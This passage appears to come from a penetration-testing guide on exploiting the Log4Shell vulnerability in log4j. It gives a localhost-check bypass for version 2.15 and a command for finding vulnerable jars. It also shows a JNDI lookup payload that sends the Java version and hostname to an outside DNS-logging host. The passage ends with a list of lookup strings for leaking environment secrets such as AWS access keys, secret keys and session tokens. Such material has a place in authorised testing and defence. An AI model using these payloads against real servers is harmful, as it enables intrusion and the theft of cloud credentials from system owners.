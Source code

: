 Note that **even if a DNS request is received that doesn't mean the application is exploitable** (or even vulnerable), you will need to try to exploit it.

{% hint style="info" %}
Remember that to **exploit version 2.15** you need to add the **localhost check bypass**: ${jndi:ldap://**127.0.0.1#**...}
{% endhint %}

#### **Local Discovery**

Search for **local vulnerable versions** of the library with:

```bash
find / -name "log4j-core*.jar" 2>/dev/null | grep -E "log4j\-core\-(1\.[^0]|2\.[0-9][^0-9]|2\.1[0-6])"
```

### **Verification**

Some of the platforms listed before will allow you to insert some variable data that will be logged when it’s requested.\
This can be very useful for 2 things:

* To **verify** the vulnerability
* To **exfiltrate information** abusing the vulnerability

For example you could request something like:\
or like `${`**`jndi:ldap://jv-${sys:java.version}-hn-${hostName}.ei4frk.dnslog.cn/a}`** and if a **DNS request is received with the value of the env variable**, you know the application is vulnerable.

Other information you could try to **leak**:

```
${env:AWS_ACCESS_KEY_ID}
${env:AWS_CONFIG_FILE}
${env:AWS_PROFILE}
${env:AWS_SECRET_ACCESS_KEY}
${env:AWS_SESSION_TOKEN}
${env:AWS_SHARED_CREDENTIALS_FILE}
${env:AWS_WEB_IDENTITY_TOKEN_FILE}
${env:HOSTNAME}
${env:JAVA_VERSION}
${env:PATH}
${env:USER}
${hostName}
${java.vendor}
${java:os}
${java:version}
${log4j:configParentLocation}
${sys:PROJECT_HOME}
${sys:file.separator}
${sys:java.class.path}
${sys:java.class.path}
${sys:java.class.version}
${sys:java.compiler}
${sys:java.ext.dirs}
${sys:java.home}
${sys:java.io.tmpdir}
${sys:java.library.path}
${sys:java.specification.name}
${sys:java.specification.vendor}
${sys:java.specification.version}
${sys:java.vendor.url}
${sys:java.vendor}
${sys:java.version}
${sys:java.vm.name}
${sys:java.vm.specification.name}
```